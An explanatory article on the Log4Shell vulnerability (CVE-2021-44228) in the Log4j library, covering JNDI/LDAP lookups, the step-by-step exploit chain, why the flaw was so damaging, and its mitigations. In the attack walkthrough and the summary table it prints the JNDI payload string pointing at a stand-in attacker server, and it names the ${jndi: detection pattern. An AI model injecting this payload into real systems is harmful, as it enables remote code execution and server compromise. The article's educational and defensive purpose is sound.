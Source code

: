 # Log4Shell Attack (CVE-2021-44228)

A detailed explanation of the Log4Shell attack (CVE-2021-44228), broken down for clarity.

## What is the Log4j Attack (Log4Shell)?

The **Log4j attack**, officially known as **Log4Shell** (CVE-2021-44228), was a critical, zero-day vulnerability in the ubiquitous **Log4j** Java logging library. Discovered and publicly disclosed in December 2021, it is considered one of the most severe cybersecurity vulnerabilities ever due to its ease of exploitation, widespread impact, and the potential for complete system takeover.

At its core, the vulnerability allowed an attacker to remotely execute any code of their choice on a server or application that used a vulnerable version of Log4j. This could lead to data theft, ransomware deployment, unauthorized access, and total compromise of the system.

---

## 1. The Culprit: What is Log4j?

To understand the attack, you must first understand the tool.

- **Log4j** is an open-source **logging utility** developed by the Apache Software Foundation.
- It is written in Java and is used by countless applications, websites, and services to record events—like errors, user actions, and system status—into log files for later review.
- Its popularity stems from its reliability and flexibility. It's a fundamental building block of the internet, used in everything from enterprise software (like VMware, Salesforce) to popular games (like Minecraft) and cloud services.

---

## 2. The Technical Heart of the Vulnerability: JNDI and LDAP

The flaw was not in the act of logging itself, but in a specific **feature** of Log4j that few developers knew about or used.

**Key Concepts:**

- **JNDI (Java Naming and Directory Interface):** A Java API that allows applications to look up (fetch) data and resources (like objects) from external directories using a name. Think of it like a phonebook for software components.
- **LDAP (Lightweight Directory Access Protocol):** A common protocol used for accessing and maintaining distributed directory information services (like Microsoft Active Directory). It's one of the services JNDI can talk to.
- **Lookups:** Log4j supports a feature called "lookups," which allow it to add dynamic, external information into log messages. For example, it can look up and insert environment variables.

**The Fatal Flaw:**

The vulnerability existed because Log4j's lookups were not restricted. An attacker could craft a **malicious string** that, when logged by a vulnerable application, would force Log4j to use JNDI to fetch a remote, attacker-controlled Java object and execute it.

---

## 3. How the Attack Works: Step-by-Step

Here’s a simplified breakdown of the exploit chain:

1. **Craft the Malicious Payload:** An attacker creates a special string that looks like this:
   ```${jndi:ldap://evil-attacker-server.com:1234/Exploit}```

2. **Trigger the Log Entry:** The attacker finds a way to get this string processed by the vulnerable application. This is shockingly easy. The string can be submitted through **any user-input field** that gets logged. Common examples include:
   - A search box on a website
   - An HTTP header (like `User-Agent` or `X-Forwarded-For`)
   - A username in a login form
   - A chat message in a game (this is how it was first discovered in Minecraft)

3. **The Application Logs It:** The application, doing its normal job, receives this string and passes it to Log4j to be written to the log file.

4. **Log4j Interprets the Lookup:** Log4j sees the `${jndi:...}` syntax and interprets it as a command. It connects to the attacker's server (`evil-attacker-server.com`) via the LDAP protocol.

5. **The Attacker's Server Responds:** The malicious LDAP server responds with a reference to a remote Java class file (`Exploit.class`) hosted elsewhere, perhaps on a simple HTTP server.

6. **The Application Fetches and Executes the Payload:** The vulnerable application fetches this malicious `Exploit.class` file and **executes it automatically**.

7. **Complete Compromise:** The executed code runs with the same permissions as the main application. This gives the attacker a foothold on the server, allowing them to:
   - Install malware or ransomware.
   - Steal sensitive data.
   - Use the server as a pivot to attack other internal systems.
   - Launch cryptocurrency miners.

---

## 4. Why Was It So Dangerous?

1. **Ubiquity:** Log4j is embedded in tens of thousands of applications and services across the globe. The potential attack surface was massive.
2. **Ease of Exploitation:** Attackers didn't need sophisticated skills or special access. They just needed to send a simple string. Automated scanners began exploiting it within hours of its disclosure.
3. **Difficulty in Patching:** Because Log4j is a *library* buried deep within other software's code, many companies didn't even know they were using it. Identifying all vulnerable systems was a monumental task.
4. **Multiple Attack Vectors:** Any data that could be logged was a potential entry point, making it very hard to defend against with traditional firewalls or input filters.

---

## 5. Mitigation and Response

The response was a global, coordinated effort by cybersecurity teams. Mitigation strategies included:

1. **Patching (The Primary Solution):** The Apache Foundation released urgent patches. Organizations were advised to immediately update Log4j to version **2.17.1** or later.
2. **Mitigation Steps (If Patching Wasn't Immediate):**
   - Setting the `LOG4J_FORMAT_MSG_NO_LOOKUPS` environment variable to `true`.
   - Removing the `JndiLookup` class from the Log4j jar file.
3. **Network Monitoring:** Security teams deployed rules in Intrusion Detection/Prevention Systems (IDS/IPS) to block traffic containing the tell-tale `${jndi:` pattern.
4. **WAF (Web Application Firewall) Rules:** WAFs were quickly updated to filter out requests containing JNDI lookup strings.

---

## Summary (In a Nutshell)

| Aspect | Explanation |
| :--- | :--- |
| **What was it?** | A critical Remote Code Execution (RCE) vulnerability in the Log4j logging library. |
| **Official Name** | **CVE-2021-44228** (aka **Log4Shell**) |
| **How did it work?** | By tricking a vulnerable application into logging a special string `${jndi:ldap://attacker.com/}`, which forced Log4j to fetch and execute malicious code from an attacker-controlled server. |
| **Why was it bad?** | Extremely easy to exploit, affected a huge percentage of the internet, and was difficult to find and patch everywhere. |
| **The Lesson** | It highlighted the critical risks hidden within the software supply chain—a single flaw in a common, open-source library can threaten the entire digital ecosystem. It forced a massive shift towards Software Bill of Materials (SBOM) to improve transparency. |